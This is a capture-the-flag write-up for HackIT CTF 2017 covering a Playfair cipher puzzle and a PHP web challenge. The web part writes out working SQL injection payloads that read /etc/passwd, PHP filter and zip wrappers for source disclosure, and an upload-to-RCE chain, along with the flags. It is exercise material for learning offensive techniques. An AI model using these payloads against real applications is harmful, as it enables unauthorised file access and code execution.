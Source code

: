 <h1>HackIT CTF 2017 Writeups</h1>

<h3>Crypto (100):  </h3><br>
Description shows that its a playfair cipher with same original message, we can use some online tools to bruteforce it <br>
https://www.quinapalus.com/playfair.html worked just fine, after extracting each message we get the keyword to cipher it<br>
and finally we append the keywords together and put them in flag format <br>
<code><br>
h4ck1t{hackitisverydangercrypto}
</code>



<h3>Web (100): </h3><br>
This challenge is about SQLi+LFI and turn that to RCE with the upload function
Looks like easy sql injection, but after fetching all tables and columns, only thing we got is a table named countries with 3 columns, nothing interesting<br>
but when we try to get current query with SQLi using <b>SELECT info FROM information_schema.processlist</b><br>
We see the query : Select scripPath from countries where countryname='something'<br>
thats looks like an LFI to mee, when we inject <code>countryname='' union select '/etc/passwd' -- - </code> we get passwd file<br>
<br>I used PHP wrappers to pull index.php and country/fr.php<br>
using countryname='' union select 'php://filter/read=convert.base64-encode/resource=country/fr.php'<br>
when we get source code we can base64 decode it and see where the file uploaded are stored<br>
This is the final part, we need to leverage the upload to a Remote code execution, I used a zip file containing php and uploaded it<br>
and used a zip wrapper to execute my php, http://tasks.ctf.com.ua:13372/index.php?country=%27%20union%20select%20%27zip://uploads/l33t.zip%23secret.php%27%20--%20- <br>
my php file contains scandir function thats equivalent to 'ls' <br>
i got this response :
<code>Array ( [0] => . [1] => .. [2] => .htaccess [3] => country [4] => index.php [5] => iulersiueruigfuihseruhgi.php [6] => static [7] => uploads )</code>
<br>
that php file looked interesting, let's open it : http://tasks.ctf.com.ua:13372/index.php?country=%27%20union%20select%20%27php://filter/read=convert.base64-encode/resource=iulersiueruigfuihseruhgi.php%27%20--%20-
<br>
got this : PD9waHAKCiRmbGFnPSJoNGNrMXR7JFFMJkxGST1GUjEzTkQkfSI7Cgo/Pgo= <br>
base64 decode it and find <code>"<?php$flag="h4ck1t{$QL&LFI=FR13ND$}";?>"</code>
that's our flag
